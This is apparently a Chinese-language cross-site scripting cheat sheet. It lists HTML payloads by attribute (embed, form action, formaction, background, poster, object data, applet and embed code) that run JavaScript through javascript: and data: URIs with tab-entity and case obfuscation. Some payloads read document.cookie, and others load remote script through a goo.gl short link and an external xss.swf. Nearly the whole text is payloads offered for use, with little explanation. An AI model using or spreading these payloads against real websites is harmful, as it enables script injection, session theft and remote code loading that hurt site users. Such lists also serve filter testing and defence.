 #### embed标签

```
<embed/src=//goo.gl/nlX0P>

```

#### action属性

利用`<form，<isindex`等标签中的action属性执行javascript

```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK

```

#### formaction属性

```
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript&colon;alert(1)>CLICKME

```

#### background属性

```
<table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效

```

#### poster属性

```
<video poster=javascript:alert(1)//></video> // Opera 10.5以下有效

```

#### data属性

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?

```

#### code属性

```
<applet code="javascript:confirm(document.cookie);"> // Firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>

```
